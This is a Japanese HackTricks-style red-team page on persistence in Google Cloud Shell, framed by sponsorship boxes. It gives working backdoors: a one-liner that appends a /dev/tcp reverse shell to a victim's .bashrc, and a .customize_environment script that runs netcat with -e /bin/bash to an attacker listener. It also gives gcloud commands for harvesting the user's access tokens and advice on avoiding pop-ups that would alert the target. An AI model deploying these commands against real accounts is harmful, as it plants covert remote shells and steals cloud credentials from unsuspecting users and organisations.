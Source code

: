 # GCP - Cloud Shell 永続性

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**にPRを提出してハッキングのコツを共有する [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* &#x20;githubリポジトリ。

</details>

## Cloud Shell

詳細については、以下をチェックしてください:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 永続的バックドア

[**Google Cloud Shell**](https://cloud.google.com/shell/)は、ブラウザから直接クラウドリソースへのコマンドラインアクセスを提供し、関連するコストはかかりません。

GoogleのCloud Shellには、**ウェブコンソール**から、または**`gcloud cloud-shell ssh`**を実行してアクセスできます。

このコンソールには攻撃者にとって興味深い機能がいくつかあります:

1. **Google Cloudへのアクセス権を持つ任意のGoogleユーザー**は、完全に認証されたCloud Shellインスタンスにアクセスできます（サービスアカウントでも、組織のオーナーであっても可能です）。
2. 当該インスタンスは、活動がない場合でも少なくとも120日間はホームディレクトリを維持します。
3. 組織がそのインスタンスの活動を監視する機能は**ありません**。

これは基本的に、攻撃者がユーザーのホームディレクトリにバックドアを仕掛け、ユーザーが少なくとも120日ごとにGC Shellに接続する限り、バックドアが生き残り、攻撃者は実行するたびにシェルを取得できることを意味します。次のようにして:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

ホームフォルダには、**`.customize_environment`** という別のファイルがあり、存在する場合、ユーザーが**cloud shell**にアクセスする**毎回実行されます**（前述のテクニックのように）。前のバックドアを挿入するか、以下のようなものを挿入して、ユーザーが"頻繁に"cloud shellを使用する限り、永続性を維持します：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**GCPアクションがCloud Shellで初めて実行され、認証が必要な場合**、コマンドが実行される前にユーザーのブラウザに承認ウィンドウが**ポップアップ**します。予期しないポップアップが表示されると、ターゲットが疑いを持ち、永続性の方法を潰す可能性があります。

これは、攻撃者としてcloud shellから`gcloud projects list`を実行した際に、ブラウザのユーザーセッションで表示されるポップアップです。
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

しかし、ユーザーが積極的にcloudshellを使用している場合、ポップアップは表示されず、次の方法でユーザーのトークンを**収集できます**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH接続が確立される方法

基本的に、以下の3つのAPIコールが使用されます：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST]（ローカルで作成した公開鍵を追加します）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST]（インスタンスを起動します）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET]（Google Cloud ShellのIPを教えてくれます）

しかし、さらに詳しい情報は[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)で見つけることができます。

## 参考文献

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksに広告を掲載したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTコレクション**](https://opensea.io/collection/the-peass-family)
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* **HackTricks**にPRを提出してハッキングのコツを共有する
*
*
* &#x20;githubリポジトリ。

</details>
